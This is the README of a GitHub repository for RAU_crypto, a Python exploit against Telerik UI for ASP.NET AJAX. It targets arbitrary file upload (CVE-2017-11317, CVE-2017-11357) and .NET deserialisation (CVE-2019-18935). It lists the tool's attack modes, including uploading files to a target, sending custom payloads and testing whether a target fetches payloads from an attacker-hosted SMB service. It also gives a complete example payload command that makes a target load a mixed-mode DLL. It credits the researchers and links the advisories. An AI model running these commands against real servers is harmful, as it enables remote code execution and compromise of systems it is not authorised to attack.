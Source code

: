 # RAU_crypto
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

Combined exploit for Telerik UI for ASP.NET AJAX.
- File upload for CVE-2017-11317 and CVE-2017-11357 - will automatically upload the file
- .NET deserialisation for CVE-2019-18935

Now supports testing for the target's ability to pull in remote payloads from an attacker-hosted SMB service. Use Burp Collaborator and/or Responder to facilitate testing whether the necessary pre-requisites are in place.

For exploitation to work, you generally need a version with hard coded keys, or you need to know the key, for example if you can disclose the contents of web.config. The exploit also allows for straightforward decryption and encryption of the rauPostData used with Telerik.Web.UI.WebResource.axd?type=rau

## Requirements
- python >= 3.6 with pycryptodome (https://www.pycryptodome.org/en/latest/src/installation.html) - installed with `pip3 install pycryptodome` or `pip3 install pycryptodomex`

## Published on exploit-db (old version)
- https://www.exploit-db.com/exploits/43874/

## See also
My other Telerik UI exploit (for CVE-2017-9248) will probably also be of interest. It is available here:
- https://github.com/bao7uo/dp_crypto

## To do
- [x] Missing HMAC functionality for later versions.
- [x] Ability to specify custom key.
- [ ] Command line argument for execution of a mixed mode dll (in the meantime use the example .NET deserialisation payload provided below).
- [ ] Separate utility for testing mixed mode dll.
- [x] Provide source code/compilation instructions for mixed mode dll.
- [ ] Brute force versions.

Note - the last four items are complete but not released.

## Vulnerabilities
The file upload (CVE-2017-11317) vulnerability was discovered by others, I believe credits due to @straight_blast @pwntester @olekmirosh . Shortly after it was announced, I encountered the Telerik library during the course of my work, so I researched it and the vulnerability and wrote this exploit in July 2017. I also reported CVE-2017-11357 for the related insecure direct object reference.

https://www.telerik.com/support/kb/aspnet-ajax/upload-%28async%29/details/insecure-direct-object-reference

The .NET deserialisation (CVE-2019-18935) vulnerability was discovered by [@mwulftange]( https://github.com/mwulftange ).

https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization

## Usage
```
$ ./RAU_crypto.py -h

RAU_crypto by Paul Taylor / @bao7uo 
CVE-2017-11317, CVE-2019-18935 - Telerik RadAsyncUpload hardcoded keys / arbitrary file upload / .NET deserialisation

Usage:

Decrypt a ciphertext:               -d ciphertext
Decrypt rauPostData:                -D rauPostData
Encrypt a plaintext:                -e plaintext

Generate file upload rauPostData:   -E c:\\destination\\folder Version
Generate all file upload POST data: -p c:\\destination\\folder Version ../local/filename
Upload file:                        -P c:\\destination\\folder Version c:\\local\\filename url [proxy]

Generate custom payload POST data : -c partA partB
Send custom payload:                -C partA partB url [proxy]

Test Responder/Burp Collaborator    -R lhost url [proxy]

Example URL:               http://target/Telerik.Web.UI.WebResource.axd?type=rau
Example Version:           2016.2.504
Example optional proxy:    127.0.0.1:8080

N.B. Advanced settings e.g. custom keys or PBKDB algorithm can be found by searching source code for: ADVANCED_SETTINGS

$
```
## Example - decryption
![Decrypt screenshot](images/decrypt_screenshot.png)

## Example - arbitrary file uplaod
![Upload screenshot](images/upload_screenshot.png)

## Custom payload (.NET deserialisation)

For details on custom payloads for .NET deserialisation, there is a great article by [@mwulftange]( https://github.com/mwulftange ) who discovered this vulnerability on the Code White blog at the following link.

- https://codewhitesec.blogspot.com/2019/02/telerik-revisited.html

Update - There is an alternative exploit by Caleb Gross [@noperator]( https://github.com/noperator/CVE-2019-18935 ), which incorporates features from this exploit, with a great blog article explaining everything. Thanks also to Caleb for contributing to RAU_Crypto.
- https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui

Other relevant links.

- https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
- https://threatvector.cylance.com/en_us/home/implications-of-loading-net-assemblies.html
- https://thewover.github.io/Mixed-Assemblies/

Example .NET deserialisation payload:

```
$ ./RAU_crypto.py -C '{"Path":"file:///c:/users/public/documents/mixedmode64.dll"}' 'System.Configuration.Install.AssemblyInstaller, System.Configuration.Install, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' http://target/Telerik.Web.UI.WebResource.axd?type=rau
```

For mixed Mode DLL, see my other github repo:
- https://github.com/bao7uo/MixedUp

Special thanks to [@irsdl]( https://github.com/irsdl ) who inspired the custom payload feature.
